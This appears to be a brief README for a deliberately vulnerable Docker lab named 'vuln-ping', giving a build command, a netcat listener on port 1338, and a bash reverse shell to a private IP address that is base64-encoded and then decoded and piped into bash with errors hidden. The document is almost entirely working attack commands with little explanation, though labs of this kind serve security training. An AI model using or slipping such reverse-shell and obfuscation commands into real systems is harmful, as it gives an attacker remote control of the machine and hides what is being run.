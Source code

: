 # docker
```bash
docker build -t vuln-ping .
```

# Listen for incoming connections
```bash
sudo nc -nvl 1338
```

# Connect to the listener
```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.178.113/1338 0>&1'" | base64
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OC4xMTMvMTMzOCAwPiYxJwo= | base64 -d | bash 2>/dev/null
```
